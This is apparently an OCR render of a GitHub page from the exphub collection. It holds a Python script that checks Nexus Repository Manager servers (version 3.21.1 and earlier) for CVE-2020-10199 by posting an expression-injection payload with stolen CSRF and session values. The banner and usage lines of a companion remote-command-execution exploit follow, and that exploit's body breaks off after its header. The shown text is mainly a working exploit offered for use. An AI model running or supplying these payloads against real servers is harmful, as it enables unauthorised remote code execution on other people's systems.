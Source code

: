         print('+ VER: Nexus Repository Manager OSS/Pro version <= 3.21.1                                                  +')
        print('+----------------------------------------------------------------------------------------------------------+')
        sys.exit()
    ip = sys.argv[1]
    port = sys.argv[2]
    csrf = sys.argv[3]
    sessionid = sys.argv[4]

    url = "http://"+ip+":"+port

    headers = {
        "Host": "%s:%s" % (ip, port),
        "Referer": url,
        "X-Nexus-UI": "true",
        "X-Requested-With": "XMLHttpRequest",
        "NX-ANTI-CSRF-TOKEN": csrf,
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0",
        "Accept": "application/json, text/plain, */*",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/json",
        "Cookie": "NX-ANTI-CSRF-TOKEN=%s; NXSESSIONID=%s" % (csrf, sessionid),
        "Origin": url,
        "Connection": "close"
        }
        
    vulurl=url+"/service/rest/beta/repositories/go/group"

    payload = {"name": "internal", "online": "true", "storage": {"blobStoreName": "default", "strictContentTypeValidation": "true"}, "group": {"memberNames": ["$\\A{233*233}"]}}

    r = requests.post(vulurl, data=json.dumps(payload), headers=headers)
    print (r.text)
    if "A54289" in r.text:
        print ("[+] CVE-2020-10199 vulnerability exists. exp as https://github.com/zhzyker/exphub")
    else:
        print ("[-] CVE-2020-10199 vulnerability does not exist.")

#### exp

    EXP
    +----------------------------------------------------------------------+
    + DES: by zhzyker as https://github.com/zhzyker/exphub                 +
    +      CVE-2020-10199 Nexus 3 remote command execution                 +
    +----------------------------------------------------------------------+
    + USE: python3 <filename> <url> <username> <password>                  +
    + EXP: python3 cve-2020-10199_cmd.py http://127.0.0.1:8081 admin admin +
    + VER: Nexus Repository Manager 3.x OSS / Pro <= 3.21.1                +
    +----------------------------------------------------------------------+

> CVE-2020-10199 利用脚本（可回显）

    #!/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub
